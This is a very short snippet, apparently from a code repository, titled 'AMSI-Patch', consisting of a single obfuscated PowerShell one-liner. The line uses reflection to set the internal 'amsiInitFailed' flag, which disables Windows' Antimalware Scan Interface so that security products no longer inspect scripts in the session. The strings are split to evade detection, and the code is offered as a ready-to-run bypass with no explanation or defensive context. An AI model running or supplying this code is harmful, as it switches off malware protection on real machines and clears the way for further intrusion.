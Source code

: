 # AMSI-Patch

```$x = 'si'; $c = 'Am'; $Ref = [Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils' -f $c, $x)); $z = $Ref.GetField(('am{0}InitFailed' -f $x),'NonPublic,Static'); $z.("Set" + "Value")($null,$true)```

